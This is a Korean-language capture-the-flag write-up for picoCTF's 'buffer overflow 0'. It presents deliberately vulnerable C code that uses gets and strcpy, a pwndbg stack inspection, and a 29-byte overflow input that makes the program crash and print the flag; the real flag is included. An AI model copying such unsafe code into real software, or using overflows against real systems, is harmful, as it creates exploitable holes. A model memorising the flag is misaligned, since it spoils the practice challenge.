 # [buffer overflow 0](https://play.picoctf.org/practice/challenge/257?category=6&originalEvent=70&page=1)
<br />

**Discription:**
> Let's start off simple, can you overflow the correct buffer?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){

  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/buf_0/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
<br />

> [!NOTE]
> ```bash
> $ cat flag.txt
> pico{this_is_flag}
> ```

<br />
<br />

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
...
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```
소스코드를 보면 `SIGSEGV`가 발생하면 FLAG를 출력합니다. 

<br />

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
...
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
gets는 `"\n"`를 만날때까지 입력을 받습니다. 이는 스택 버퍼오버플로우가 발생합니다. `vuln`은 `gets`로 입력받은 값을 복사하여 `buf2`에 저장합니다. 함수는 할 일을 다하면 `Return address(RET)`를 통해 원래 있던 곳으로 복귀합니다. 이때 `RET`이 가리키는 값이 유효하지 않을 경우, `SIGSEGV`가 발생하고 프로그램을 종료합니다.

<br />

```asm
pwndbg> b *vuln+38
Breakpoint 1 at 0x56556379
pwndbg> r
Starting program: /home/kali/pico/buf_0/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Input: AAAABBBBCCCC
...
pwndbg> x/32x 0xffffd130
0xffffd130:     0x41414141      0x42424242      0x43434343      0x56558f00
0xffffd140:     0x565564a0      0x56558fac      0xffffd1d8      0x56556477
0xffffd150:     0xffffd164      0x000003e8      0x000003e8      0x5655641f
0xffffd160:     0x1f8bfbff      0x41414141      0x42424242      0x43434343
0xffffd170:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd180:     0x00000000      0xffffd3eb      0x00000002      0x00000000
0xffffd190:     0x00000000      0x00000000      0x00000000      0xffffdfdd
0xffffd1a0:     0xf7fc5540      0xf7fc5000      0x00000000      0x00000000
pwndbg> x/a 0x56556477
0x56556477 <main+245>:  0x8310c483
```
`"AAAABBBBCCCC"`를 입력하고, `strcpy` 호출 직후의 스택 상태를 보겠습니다. `buf2`에는 입력 값이 복사가 되어 있는 것을 알 수 있으며, `0x56556477`는 `RET` 입니다. 따라서 버퍼를 29바이트이상 채우면 `RET`이 유효하지 않은 주소를 가리키므로, `SIGSEGV`가 발생할 것입니다.

<br />

```bash
$ ./vuln
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
pico{this_is_flag}
```

<br />

**Remote:**
```bash
$ nc saturn.picoctf.net 55280
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```


